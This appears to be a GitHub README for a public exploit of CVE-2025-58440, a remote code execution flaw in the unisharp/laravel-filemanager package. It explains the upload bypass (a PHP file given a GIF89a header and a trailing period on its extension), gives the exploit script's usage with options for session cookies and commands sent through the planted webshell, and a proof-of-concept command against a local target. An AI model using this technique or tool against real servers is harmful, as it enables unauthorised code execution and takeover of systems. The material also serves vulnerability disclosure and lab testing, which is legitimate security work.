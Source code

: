 # CVE-2025-58440
Remote Code Execution (RCE) via Polyglot File Attack and Null Byte Injection on Laravel FileManager

### Overview

The  **unisharp/laravel-filemanager** package versions  `2.11` are vulnerable to **Remote Code Execution (RCE)** due to improper file type validation during file uploads. The vulnerability allows an attacker to upload a malicious PHP file disguised as a GIF image by exploiting the file extension validation. Specifically, the attacker can append a period (`.`) to the `.php` file extension and include the `GIF89a;` header to make the file appear as an image, bypassing validation checks. This allows the attacker to execute arbitrary PHP code on the server, leading to **Remote Code Execution (RCE)**.

- [Docker Setup Demo](https://github.com/ph-hitachi/laravel-filemanager-docker)
  
### Usage

```python
python3 CVE-2025-58440.py <target> [--flags]

Laravel File Manager  Exploit (CVE-2025-58440)

positional arguments:
  target                Target URL (e.g., 127.0.0.1:8000)

options:
  -h, --help                           show this help message and exit
  -C, --cookie COOKIE                  Session cookies
  -d, --directory DIRECTORY            Working directory (default: /tmp)
  -f, --filename FILENAME              Filename to upload (default: random)
  -p, --payload COMMAND                Command to execute through the webshell (e.g., 'id', 'whoami') (default: id)
```

### Proof of Concept
```
python3 CVE-2025-58440.py 127.0.0.1:8000 -C "laravel-session=value" -p "whoami"
```
<img width="731" height="231" alt="image" src="https://github.com/user-attachments/assets/25712ff0-6300-4b13-971f-a5dc06d810f6" />
